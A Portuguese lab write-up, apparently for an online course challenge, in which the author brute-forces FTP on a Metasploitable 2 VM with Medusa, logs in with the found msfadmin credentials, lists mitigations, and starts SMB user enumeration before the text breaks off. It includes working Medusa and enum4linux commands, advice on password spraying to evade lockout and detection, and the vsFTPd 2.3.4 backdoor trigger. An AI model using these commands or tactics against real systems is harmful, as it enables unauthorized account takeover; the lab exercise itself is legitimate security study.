

<h1>
<a href="https://www.dio.me/">
     </a>
    <span>Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux</span>
</h1>

# :clipboard: Descrição do Desafio

Implementar, documentar e compartilhar um projeto prático utilizando **Kali Linux** e a ferramenta **Medusa**, em conjunto com ambientes vulneráveis (por exemplo, Metasploitable 2 e DVWA), para simular cenários de ataque de força bruta e exercitar medidas de prevenção.

- **Configurar o ambiente**: duas VMs (Kali Linux e Metasploitable 2) no VirtualBox, com rede interna (host-only).

- **Executar ataques simulados**: força bruta em FTP, automação de tentativas em formulário web (DVWA) e password spraying em SMB com enumeração de usuários.

- **Documentar os testes**: wordlists simples, comandos utilizados, validação de acessos e recomendações de mitigação.

:warning: **Atenção: Este desafio é flexível!** Você pode seguir os cenários propostos (FTP, DVWA, SMB) ou adaptar à sua realidade: experimentar outras ferramentas, criar novas wordlists, explorar módulos/serviços diferentes, ou apenas documentar em detalhes o que aprendeu, com estudos, reflexões e exemplos de código. O mais importante é demonstrar seu entendimento e compartilhar sua jornada de aprendizado!
___

# :computer: Desenvolvimento do Projeto
Este projeto documenta a implementação de um laboratório controlado para simulação de ataques de força bruta e análise de segurança defensiva. O objetivo é demonstrar o impacto de credenciais fracas e protocolos inseguros em serviços de rede (FTP, SMB e Web), utilizando ferramentas de auditoria no ecossistema Kali Linux.

---

## 🛠️ Especificações do Laboratório

Para garantir a fidelidade dos testes e a eficiência na virtualização, o ambiente foi configurado em hardware de alta performance utilizando uma distribuição Linux estável como host.

* **Host OS:** Arch Linux (Kernel 6.x)
* **Hipervisor:** Oracle VirtualBox
* **Alvos (VMs):**
    *  **Atacante:** Kali Linux (Interfaces de rede configuradas em modo *Host-Only*)
    * **Alvo:** Metasploitable 2 (Sistema propositalmente vulnerável para fins educacionais)


---

# :pencil:Ataque Horizontal e Ataque Vertical

O **Medusa** pode ser usado tanto para ataque vertical como para ataque horizontal, o método que utilizaremos é um modelo híbrido entre os dois. 

### 1. Brute Force (Ataque Vertical)

No Brute Force tradicional, você escolhe **um usuário** (ou uma lista pequena) e testa **milhares de senhas** contra ele.

* **Foco:** Quebrar a conta de um alvo específico (ex: `admin`).
* **Risco:** Muito alto. É facilmente detectado por sistemas de monitoramento e frequentemente causa o **bloqueio da conta** (Account Lockout) após poucas tentativas.

### 2. Password Spraying (Ataque Horizontal)

O Password Spraying inverte a lógica: você escolhe **uma única senha comum** (ex: `Mudar@123` ou `Empresa2026`) e a testa contra **centenas ou milhares de usuários** diferentes.

* **Foco:** Encontrar "o elo mais fraco" da organização sem disparar alarmes.
* **Vantagem:** Como você testa apenas uma senha por usuário a cada poucas horas, você **não atinge o limite de bloqueio** de conta (lockout policy).
* **Contexto:** É o ataque favorito contra o SMB em ambientes de Active Directory (Windows Server).

---

### Tabela Comparativa: Brute Force vs. Password Spraying

| Característica | Brute Force (Vertical) | Password Spraying (Horizontal) |
| --- | --- | --- |
| **Estratégia** | Muitas senhas $\rightarrow$ Um usuário | Uma senha $\rightarrow$ Muitos usuários |
| **Volume de tentativas** | Massivo por conta | Baixo por conta |
| **Detecção** | Fácil (Logs de falha repetidos) | Difícil (Parece um erro de digitação comum) |
| **Objetivo** | Comprometer um alvo específico | Ganhar qualquer acesso inicial na rede |
| **Efeito colateral** | Bloqueio de contas de usuários | Passa despercebido pelas políticas de lockout |

---

### O Medusa em nosso cenário

Ao usar o Medusa com uma pass.txt que contem várias tentativas para cada usuário da users.txt no caso do FTP, ele se torna um ataque vertical em massa.

Já o comando `medusa -h 192.168.56.102 -U users.txt -P pass.txt -M smbnt` executado no caso SMB, realiza o que chamamos de **Credential Stuffing** ou **Combinação de Matriz**, onde ele testa cada senha da sua lista para cada usuário da sua lista.

Para que seu ataque fosse um **Password Spraying puro**, o fluxo no Medusa ou em ferramentas similares (como o *CrackMapExec*) deveria ser:

1. Testar a senha "msfadmin" para **todos** os usuários da `users.txt`.
2. Esperar um tempo (ex: 30 minutos).
3. Testar a próxima senha da lista para todos os usuários.

### Por que isso é importante no SMB?

Em redes corporativas, o SMB geralmente está ligado ao login do Windows dos funcionários. Se você rodar um Medusa "agressivo" (Brute Force), você pode **travar o acesso de toda a empresa**, pois todas as contas ficariam bloqueadas por excesso de tentativas. O Password Spraying é a técnica "silenciosa" para evitar esse desastre e permanecer abaixo do radar do time de Blue Team (Defesa).

## 🔍 Metodologia de Execução

O ciclo de vida do teste seguiu o padrão de auditoria técnica:

1. **Reconhecimento (Recon):** Mapeamento de portas e serviços.
2. **Exploração (Exploitation):** Testes de força bruta direcionados.
3. **Pós-Exploração:** Validação de acesso e enumeração de privilégios.
4. **Análise de Mitigação:** Proposição de medidas defensivas.

---


# Ambiente com máquinas virtuais 

O ambiente foi configurado com as duas máquinas virtuais. 

<p align=center>

</p>

Ip das máquinas obtidos com o comando `ip adrr show`

```bash
┌──(kali㉿kali)-[~]
└─$ ip addr show
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:8a:35:d2 brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.101/24 brd 192.168.56.255 scope global dynamic noprefixroute eth0
       valid_lft 507sec preferred_lft 507sec
    inet6 fe80::811a:7504:d353:62ac/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

Da mesma forma se obtém o ip da máquina Metasploitable 2 (192.168.56.102)


## Varredura de rede

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sV -p 21,22,80,445,139 192.168.56.102
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-11 13:14 -0400
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.102
Host is up (0.00057s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 08:00:27:86:3F:03 (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.32 seconds
``` 
A latência de rede foi de **0.00057s** (conforme seu Nmap), o que torna o ataque extremamente rápido, mas que em redes externas, mecanismos de defesa como o *Tarpitting* (atraso proposital na resposta) podem tornar um ataque de força bruta inviável.

# Força bruta FTP

## Criando lista de usuários

Além de criar alguns nomes de usuários com o comando `echo`, também utilizamos o comando `head` para extrair as primeiras 20 linhas do arquivo `/usr/share/wordlists/metasploit/unix_users.txt` e adicionar ao nosso arquivo `users.txt`.

```bash
┌──(kali㉿kali)-[~]
$ echo -e "user\nadmin\nmsfadmin\nroot" > users.txt                     
                                                                             
┌──(kali㉿kali)-[~]
└─$ head -n 20 /usr/share/wordlists/metasploit/unix_users.txt >> users.txt
                                                                             
┌──(kali㉿kali)-[~]
└─$ sort -u users.txt -o users.txt                                        

┌──(kali㉿kali)-[~]
└─$ cat users.txt 

4Dgifts
abrt
adm
admin
administrator
anon
_apt
arpwatch
auditor
avahi
avahi-autoipd
backup
bbs
beef-xss
bin
bitnami
checkfs
checkfsys
checksys
msfadmin
root
user

```

## Criando Lista de senhas
```bash
┌──(kali㉿kali)-[~]
└─$ echo -e "12345\npassword\nqwerty\nmsfadmin" > pass.txt
```

## Ataque de força bruta FTP

Execução do comando com ferramenta `medusa`: 
```bash
┌──(kali㉿kali)-[~]
└─$ medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2026-05-11 13:49:03 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: abrt (2 of 22, 1 complete) Password: password (1 of 4 complete)
2026-05-11 13:49:03 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: 4Dgifts (1 of 22, 1 complete) Password: msfadmin (1 of 4 complete)
2026-05-11 13:49:03 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: abrt (2 of 22, 1 complete) Password: 12345 (2 of 4 complete)
2026-05-11 13:49:04 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: 4Dgifts (1 of 22, 2 complete) Password: qwerty (2 of 4 complete)
2026-05-11 13:49:04 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: 4Dgifts (1 of 22, 2 complete) Password: 12345 (3 of 4 complete)
2026-05-11 13:49:04 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: 4Dgifts (1 of 22, 2 complete) Password: password (4 of 4 complete)
2026-05-11 13:49:06 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: abrt (2 of 22, 2 complete) Password: msfadmin (3 of 4 complete)
2026-05-11 13:49:06 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: abrt (2 of 22, 3 complete) Password: qwerty (4 of 4 complete)
2026-05-11 13:49:06 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: adm (3 of 22, 3 complete) Password: 12345 (1 of 4 complete)
2026-05-11 13:49:07 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: adm (3 of 22, 3 complete) Password: password (2 of 4 complete)
2026-05-11 13:49:07 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: adm (3 of 22, 3 complete) Password: qwerty (3 of 4 complete)
2026-05-11 13:49:07 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: adm (3 of 22, 4 complete) Password: msfadmin (4 of 4 complete)
2026-05-11 13:49:09 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (4 of 22, 4 complete) Password: qwerty (1 of 4 complete)
2026-05-11 13:49:09 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (4 of 22, 4 complete) Password: password (2 of 4 complete)
2026-05-11 13:49:09 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (4 of 22, 4 complete) Password: 12345 (3 of 4 complete)
2026-05-11 13:49:10 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (4 of 22, 5 complete) Password: msfadmin (4 of 4 complete)
2026-05-11 13:49:10 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: administrator (5 of 22, 5 complete) Password: 12345 (1 of 4 complete)
2026-05-11 13:49:10 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: administrator (5 of 22, 5 complete) Password: password (2 of 4 complete)
2026-05-11 13:49:13 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: anon (6 of 22, 5 complete) Password: qwerty (1 of 4 complete)
2026-05-11 13:49:13 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: anon (6 of 22, 5 complete) Password: msfadmin (2 of 4 complete)
2026-05-11 13:49:13 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: anon (6 of 22, 5 complete) Password: password (3 of 4 complete)
2026-05-11 13:49:13 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: administrator (5 of 22, 6 complete) Password: msfadmin (3 of 4 complete)
2026-05-11 13:49:13 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: administrator (5 of 22, 6 complete) Password: qwerty (4 of 4 complete)
2026-05-11 13:49:13 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: anon (6 of 22, 7 complete) Password: 12345 (4 of 4 complete)
2026-05-11 13:49:16 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: _apt (7 of 22, 7 complete) Password: 12345 (1 of 4 complete)
2026-05-11 13:49:16 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: _apt (7 of 22, 7 complete) Password: password (2 of 4 complete)
2026-05-11 13:49:16 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: _apt (7 of 22, 7 complete) Password: qwerty (3 of 4 complete)
2026-05-11 13:49:16 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: _apt (7 of 22, 8 complete) Password: msfadmin (4 of 4 complete)
2026-05-11 13:49:16 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: arpwatch (8 of 22, 8 complete) Password: 12345 (1 of 4 complete)
2026-05-11 13:49:16 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: arpwatch (8 of 22, 8 complete) Password: password (2 of 4 complete)
2026-05-11 13:49:19 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: arpwatch (8 of 22, 8 complete) Password: msfadmin (3 of 4 complete)
2026-05-11 13:49:19 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: auditor (9 of 22, 8 complete) Password: 12345 (1 of 4 complete)
2026-05-11 13:49:19 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: arpwatch (8 of 22, 8 complete) Password: qwerty (4 of 4 complete)
2026-05-11 13:49:19 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: auditor (9 of 22, 9 complete) Password: qwerty (2 of 4 complete)
2026-05-11 13:49:19 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: auditor (9 of 22, 9 complete) Password: password (3 of 4 complete)
2026-05-11 13:49:19 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: auditor (9 of 22, 9 complete) Password: msfadmin (4 of 4 complete)
2026-05-11 13:49:21 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: avahi (10 of 22, 10 complete) Password: 12345 (1 of 4 complete)
2026-05-11 13:49:21 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: avahi (10 of 22, 10 complete) Password: password (2 of 4 complete)
2026-05-11 13:49:21 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: avahi (10 of 22, 10 complete) Password: qwerty (3 of 4 complete)
2026-05-11 13:49:22 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: avahi (10 of 22, 11 complete) Password: msfadmin (4 of 4 complete)
2026-05-11 13:49:22 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: avahi-autoipd (11 of 22, 11 complete) Password: password (1 of 4 complete)
2026-05-11 13:49:22 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: avahi-autoipd (11 of 22, 11 complete) Password: 12345 (2 of 4 complete)
2026-05-11 13:49:25 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: avahi-autoipd (11 of 22, 11 complete) Password: qwerty (3 of 4 complete)
2026-05-11 13:49:25 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: avahi-autoipd (11 of 22, 12 complete) Password: msfadmin (4 of 4 complete)
2026-05-11 13:49:25 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: backup (12 of 22, 12 complete) Password: 12345 (1 of 4 complete)
2026-05-11 13:49:25 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: backup (12 of 22, 12 complete) Password: qwerty (2 of 4 complete)
2026-05-11 13:49:25 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: backup (12 of 22, 12 complete) Password: password (3 of 4 complete)
2026-05-11 13:49:25 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: backup (12 of 22, 13 complete) Password: msfadmin (4 of 4 complete)
2026-05-11 13:49:28 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: bbs (13 of 22, 13 complete) Password: password (1 of 4 complete)
2026-05-11 13:49:28 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: bbs (13 of 22, 13 complete) Password: 12345 (2 of 4 complete)
2026-05-11 13:49:28 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: bbs (13 of 22, 13 complete) Password: qwerty (3 of 4 complete)
2026-05-11 13:49:29 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: beef-xss (14 of 22, 14 complete) Password: 12345 (1 of 4 complete)
2026-05-11 13:49:29 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: bbs (13 of 22, 14 complete) Password: msfadmin (4 of 4 complete)
2026-05-11 13:49:29 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: beef-xss (14 of 22, 14 complete) Password: password (2 of 4 complete)
2026-05-11 13:49:31 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: beef-xss (14 of 22, 14 complete) Password: qwerty (3 of 4 complete)
2026-05-11 13:49:31 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: beef-xss (14 of 22, 15 complete) Password: msfadmin (4 of 4 complete)
2026-05-11 13:49:31 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: bin (15 of 22, 15 complete) Password: 12345 (1 of 4 complete)
2026-05-11 13:49:32 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: bin (15 of 22, 15 complete) Password: password (2 of 4 complete)
2026-05-11 13:49:32 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: bin (15 of 22, 15 complete) Password: msfadmin (3 of 4 complete)
2026-05-11 13:49:32 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: bin (15 of 22, 15 complete) Password: qwerty (4 of 4 complete)
2026-05-11 13:49:34 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: bitnami (16 of 22, 16 complete) Password: 12345 (1 of 4 complete)
2026-05-11 13:49:34 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: bitnami (16 of 22, 16 complete) Password: password (2 of 4 complete)
2026-05-11 13:49:34 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: bitnami (16 of 22, 16 complete) Password: qwerty (3 of 4 complete)
2026-05-11 13:49:34 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: bitnami (16 of 22, 17 complete) Password: msfadmin (4 of 4 complete)
2026-05-11 13:49:34 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: checkfs (17 of 22, 17 complete) Password: 12345 (1 of 4 complete)
2026-05-11 13:49:34 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: checkfs (17 of 22, 17 complete) Password: password (2 of 4 complete)
2026-05-11 13:49:37 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: checkfs (17 of 22, 17 complete) Password: msfadmin (3 of 4 complete)
2026-05-11 13:49:37 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: checkfs (17 of 22, 18 complete) Password: qwerty (4 of 4 complete)
2026-05-11 13:49:37 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: checkfsys (18 of 22, 18 complete) Password: 12345 (1 of 4 complete)
2026-05-11 13:49:38 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: checkfsys (18 of 22, 18 complete) Password: password (2 of 4 complete)
2026-05-11 13:49:38 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: checkfsys (18 of 22, 18 complete) Password: qwerty (3 of 4 complete)
2026-05-11 13:49:38 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: checkfsys (18 of 22, 19 complete) Password: msfadmin (4 of 4 complete)
2026-05-11 13:49:41 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: checksys (19 of 22, 19 complete) Password: 12345 (1 of 4 complete)
2026-05-11 13:49:41 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: checksys (19 of 22, 19 complete) Password: password (2 of 4 complete)
2026-05-11 13:49:41 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: checksys (19 of 22, 19 complete) Password: qwerty (3 of 4 complete)
2026-05-11 13:49:41 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (20 of 22, 20 complete) Password: msfadmin (1 of 4 complete)
2026-05-11 13:49:41 ACCOUNT FOUND: [ftp] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
2026-05-11 13:49:41 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: checksys (19 of 22, 21 complete) Password: msfadmin (4 of 4 complete)
2026-05-11 13:49:41 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (20 of 22, 21 complete) Password: 12345 (2 of 4 complete)
2026-05-11 13:49:41 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (20 of 22, 21 complete) Password: password (3 of 4 complete)
2026-05-11 13:49:43 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (21 of 22, 22 complete) Password: 12345 (1 of 4 complete)
2026-05-11 13:49:43 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (20 of 22, 22 complete) Password: qwerty (4 of 4 complete)
2026-05-11 13:49:43 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (21 of 22, 22 complete) Password: password (2 of 4 complete)
2026-05-11 13:49:43 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (21 of 22, 22 complete) Password: qwerty (3 of 4 complete)
2026-05-11 13:49:43 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (21 of 22, 23 complete) Password: msfadmin (4 of 4 complete)
2026-05-11 13:49:43 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: user (22 of 22, 23 complete) Password: 12345 (1 of 4 complete)
2026-05-11 13:49:46 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: user (22 of 22, 23 complete) Password: password (2 of 4 complete)
2026-05-11 13:49:46 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: user (22 of 22, 23 complete) Password: qwerty (3 of 4 complete)
2026-05-11 13:49:46 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: user (22 of 22, 23 complete) Password: msfadmin (4 of 4 complete)
```

## Teste de login

Linha com sucesso do teste de bruta força:

```bash
2026-05-11 13:49:41 ACCOUNT FOUND: [ftp] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
```

Login com sucesso:

```bash
┌──(kali㉿kali)-[~]
└─$ ftp 192.168.56.102
Connected to 192.168.56.102.
220 (vsFTPd 2.3.4)
Name (192.168.56.102:kali): msfadmin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

## Teste de invasão completado 

A invasão FTP consiste em um processo de **Descoberta**, **Exploração** e **Validação**. O fato de o usuário e a senha serem idênticos (`msfadmin:msfadmin`) é um erro clássico de configuração que ainda ocorre muito em ambientes reais, especialmente em dispositivos IoT e servidores mal gerenciados.

## 🚨 Perigos da Brecha de Segurança

* **Exposição e Roubo de Dados:** O protocolo FTP permite que o invasor baixe arquivos confidenciais, códigos-fonte ou documentos sensíveis armazenados no servidor.
* **Integridade Comprometida:** Com acesso de escrita, um atacante pode modificar arquivos, deletar backups ou injetar scripts maliciosos em páginas web (se o diretório for compartilhado com o servidor Apache).
* **Movimentação Lateral:** Credenciais padrão são frequentemente reutilizadas. O acesso obtido no FTP pode ser testado com sucesso no SSH, banco de dados ou painéis administrativos, permitindo que o invasor se aprofunde na rede.
* **Tráfego em Texto Claro:** O FTP (porta 21) não utiliza criptografia. Qualquer pessoa na mesma rede (via *Man-in-the-Middle*) pode capturar a senha `msfadmin` simplesmente "ouvindo" o tráfego com ferramentas como o Wireshark.
* **Risco Específico da Versão (Backdoor):** A versão específica **vsFTPd 2.3.4** é famosa por possuir um backdoor que abre uma shell na porta 6200 ao enviar um nome de usuário que termine em `:)`. O brute force foi apenas uma das formas de entrar.

---

## 🛡️ Medidas de Mitigação e Correção

* **Política de Senhas Fortes:** Implementar a obrigatoriedade de senhas complexas (mínimo de 12 caracteres, incluindo símbolos e números) para impedir o sucesso de ferramentas de brute force como o Medusa.
* **Alteração de Credenciais Padrão:** Nunca manter usuários e senhas de fábrica ou de instalação (`admin`, `guest`, `msfadmin`). O primeiro passo após a instalação deve ser a troca das credenciais.
* **Migração para Protocolos Seguros:** Substituir o FTP pelo **SFTP** (SSH File Transfer Protocol) ou **FTPS** (FTP over TLS/SSL), garantindo que tanto o login quanto os dados transferidos sejam criptografados.
* **Implementação de Fail2Ban:** Configurar ferramentas que monitorem os logs de autenticação e bloqueiem automaticamente o endereço IP do atacante após um número X de tentativas falhas (ex: 3 a 5 tentativas).
* **Princípio do Menor Privilégio:** Garantir que o usuário do FTP tenha acesso estritamente aos diretórios necessários e nunca permissões de superusuário (root) ou acesso a pastas do sistema.
* **Atualização de Software (Patching):** Atualizar o serviço vsFTPd para uma versão recente que não contenha vulnerabilidades conhecidas ou backdoors.

---

# Ataque SMB

O ataque ao protocolo **SMB (Server Message Block)** é um dos mais críticos em auditorias de segurança, pois este serviço é frequentemente utilizado para compartilhamento de arquivos, impressoras e, em ambientes corporativos, está integrado à autenticação do Windows (Active Directory).

No **Metasploitable 2**, o SMB é gerenciado pelo **Samba**. Vamos às etapas para o desafio:

---

### 1. Enumeração de Usuários

Antes de rodar a força bruta, é mais eficiente saber quais usuários o sistema "admite" que existem. O Kali possui ferramentas específicas para interagir com o Samba.

O comando seguinte tentará listar os usuários via chamadas de RPC. Se ele encontrar nomes que não estão no seu `users.txt`, adicione-os para aumentar as chances de sucesso.

---


```bash  
┌──(kali㉿kali)-[~]
└─$ enum4linux -U 192.168.56.102
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Mon May 11 14:22:52 2026

 =========================================( Target Information )=========================================                                                 
                                                                             
Target ........... 192.168.56.102                                            
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ===========================( Enumerating Workgroup/Domain on 192.168.56.102 )===========================                                                 
                                                                             
                                                                             
